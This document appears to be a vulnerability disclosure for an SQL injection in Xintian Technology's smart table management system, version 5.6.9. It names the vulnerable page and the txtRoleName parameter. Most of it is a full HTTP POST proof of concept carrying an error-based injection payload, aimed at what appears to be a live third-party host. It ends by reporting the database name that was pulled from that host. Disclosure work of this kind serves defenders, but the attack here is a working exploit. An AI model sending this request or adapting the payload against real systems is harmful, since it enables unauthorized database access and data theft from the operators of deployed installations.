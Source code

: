 SQL injection vulnerability exists in the smart table integrated management system of Xintian Technology Co., LTD

official website:https://www.suntront.com/

verison:Ver5.6.9

Loophole file: / / SysManage AddUpdateRole. Aspx

Vulnerability parameter: txtRoleName

POC
```
POC
POST /SysManage/AddUpdateRole.aspx HTTP/1.1
Host: pay.gtswjt.com:10001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 763
Origin: http://pay.gtswjt.com:10001
Connection: close
Referer: http://pay.gtswjt.com:10001/SysManage/AddUpdateRole.aspx
Cookie: 
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.1

__LASTFOCUS=&__VIEWSTATE=SfVnjbEBer5WV3uPNII7yl%2FeDSCOs6TNGH9bS6scS3gUhGokqER9q7RhHsHmD4QOuzAZVHgUL7d2dTPqlTTiRnwYEjMJxl%2F%2BibmKelDEuT4n%2FnMkhYoGb8Y%2B4b1t%2BjVrZtfSFFPUIOYhejR8RYwpK13i694CviSYMfbb39jIpiEvX07xlBeDyhdSUVWs%2FpNLrUzfzf11qaMVoL0u&__VIEWSTATEGENERATOR=7CD9219B&__EVENTTARGET=&__EVENTARGUMENT=&__EVENTVALIDATION=NWPhrpN0buUJNs3bCgOo1a8sHescROHA%2FXNfeEjx4lsQg5D2uCYkiCXgkz1nizgl5l6cfhj8Q%2BroQUz7I4y0iO%2Bd%2FSLx7%2FYKo9cUFhzL6Xpz%2BnDCMF9GWPBt%2BlJRk317JZRUbJeSULOt7eyim9N7ZDST2UYBxCjyYBEf9OrQ9W7nRnc5imHcEtyw9zaurztJqJfS9gZFWVjoWro%2BjXDIvouDYsz49JgITm4L3RGRMGzffs0Xh5Q0lrf3KFDc1s99hN6GmslySpUuFmqG1fIyAq9XOiAOCX8IW935cPUIobIXtenYk9Y40kAfVEc%3D&txtRoleName=2' and 1=convert(int,db_name()) and '1'='1&ddlPriority=1&TbxRemark=&btnSave=%B1%A3%B4%E6
```

Click jump, error to get the database name

![WPS图片(3)](https://github.com/wpay65249519/cve/assets/142558438/7602cebf-30e8-4a77-8120-20e37663f4d2)

The database name is SunWirelessDB

![WPS图片(4)](https://github.com/wpay65249519/cve/assets/142558438/31acff5b-ad25-4dca-a1c1-f582adf0dfe3)
